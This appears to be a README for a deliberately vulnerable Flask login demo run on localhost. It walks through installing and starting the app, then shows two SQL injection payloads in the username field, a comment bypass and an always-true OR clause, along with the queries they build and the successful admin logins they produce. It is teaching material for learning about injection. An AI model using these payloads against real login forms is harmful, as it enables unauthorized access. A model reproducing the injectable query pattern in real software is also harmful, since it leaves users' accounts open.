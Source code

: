 SQL Injection Demo Flask App

Step 1:-
        Make sure the following are installed on your system:
            -> Python 3.X
            -> Flask
                Install Via terminal
                >> pip install Flask

Step 2:-
        Save your code in a file, 
        eg: vuln_app.py

Step 3:-
        In your terminal, navigate to the folder where vuln_app.py is saved, then run:
        >> python vuln_app.py

        You should see output like:
        >> *Running on http://127.0.0.1.5000/

Step 4:-
        Open your web browser and go to:
        >>http://127.0.0.1:5000/login?username=admin&password=adminpass
        
        This will show:
        ✅ Login successful!
            Username: admin
            Password: adminpass

Step 5:-
        Test First Payload
        URL:-
                http://127.0.0.1:5000/login?username=admin'--&password=test
                
        This builds the SQL query:
                SELECT * FROM users WHERE username = 'admin'--' AND password = 'test'
        Result :-
            ✅ Login successful!
                Username: admin
                Password: adminpass

        Test Second Payload
        URL:-
                http://127.0.0.1:5000/login?username=admin' OR '1'='1&password=test

        This becomes:-
                SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = 'test'
        Result :-
            ✅ Login successful!
                Username: admin
                Password: adminpass

Step 6:-
        If you mess up the database, just stop the server and restart it:
        >> python vuln_app.py

        This will recreate the example.db with a fresh user:
            Username: admin  
            Password: adminpass



